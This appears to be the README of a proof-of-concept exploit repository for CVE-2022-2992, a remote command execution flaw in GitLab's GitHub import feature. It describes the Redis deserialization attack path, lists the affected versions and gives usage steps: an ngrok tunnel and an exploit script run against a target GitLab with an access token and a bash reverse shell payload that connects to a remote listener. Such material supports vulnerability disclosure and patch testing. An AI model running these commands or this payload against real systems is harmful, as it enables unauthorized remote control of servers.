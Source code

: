 # CVE-2022-2992: Remote Command Execution via Github import

## Information
**Description:** This allows an authenticated user to achieve remote code execution via the Import from GitHub API endpoint.  
**Versions Affected:** all versions from 11.10 prior to 15.1.6, 15.2 to 15.2.4, 15.3 to 15.3.2  
**Version Fixed:** 15.3.2  
**Researcher:** [vakzz](https://twitter.com/wcbowling)  
**Write-up Link:** https://blog.redwaysecurity.com/2023/04/desenvolvendo-o-exploit-para-o-cve-2022.html
**NIST CVE Link:** https://nvd.nist.gov/vuln/detail/CVE-2022-2992  

## Proof-of-Concept Exploit
### Description
An authenticated user can import a repository from Github into Gitlab. One can try to import from an attacker's controller server which replies with a Redis' serialization protocol object in the nested `default_branch` making the Gitlab to cache this object on redis and the redis to deserialize it and trigger execute the payload.

### Usage/Exploitation
One will need a [personal access token](https://docs.gitlab.com/ee/user/profile/personal_access_tokens.html#create-a-personal-access-token)

```bash
$ bundle install # install dependencies
$ ngrok http 127.0.0.1:4567  # start ngrok tunnel
$ export NGROK_URL=https://68b9-83-173-213-121.eu.ngrok.io # use the url from ngrok
$ ruby exploit.rb http://target.gitlab.com w4dg6wVj7j7xlJgpGLEYdwFe 'bash -c "sh -i >& /dev/tcp/172.23.0.1/1337 0>&1"' # that is a example, use your own payload
```
### Example
![Remote Command Execution via Github import](images/cve-2022-2992.gif)
